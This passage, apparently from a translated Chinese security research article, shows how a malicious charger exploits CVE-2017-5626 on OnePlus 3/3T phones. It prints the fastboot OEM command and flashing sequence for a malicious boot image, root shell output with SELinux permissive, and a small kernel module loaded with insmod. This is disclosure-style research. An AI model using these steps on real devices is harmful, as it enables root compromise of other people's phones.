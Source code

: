 利用CVE-2017-5626漏洞，恶意充电器可以替换boot镜像，使得adbd以root权限运行，SELinux也被设置为permissive模式（参考我们之前的文章）：



```
&gt; fastboot flash boot evilboot.img
target reported max download size of 440401920 bytes
sending 'boot' (14836 KB)...
OKAY [  0.335s]
writing 'boot'...
FAILED (remote: Partition flashing is not allowed)
finished. total time: 0.358s
&gt; fastboot oem 4F500301
...
OKAY [  0.020s]
finished. total time: 0.021s
&gt; fastboot flash boot  evilboot.img
target reported max download size of 440401920 bytes
sending 'boot' (14836 KB)...
OKAY [  0.342s]
writing 'boot'...
OKAY [  0.135s]
finished. total time: 0.480s
```

这样恶意充电器就可以在用户输入凭证信息前，获得一个root权限的shell，不过此时攻击者还无法访问用户数据：



```
OnePlus3:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
OnePlus3:/ # getenforce
Permissive
```

OnePlus 3/3T的内核是在启用LKM条件下编译而成的，因此攻击者不需要修改或重新编译内核就可以运行内核代码。因此，我创建了一个小型内核模块：



```
#include &lt;linux/module.h&gt;
#include &lt;linux/kdb.h&gt;
int init_module(void)
`{`
    printk(KERN_ALERT "Hello From Evil LKMn");
    return 1;
`}`
```

恶意充电器可以将该模块加载到内核中：



```
OnePlus3:/data/local/tmp # insmod ./evil.ko
OnePlus3:/data/local/tmp # dmesg | grep "Evil LKM"
[19700121_21:09:58.970409]@3 Hello From Evil LKM
```

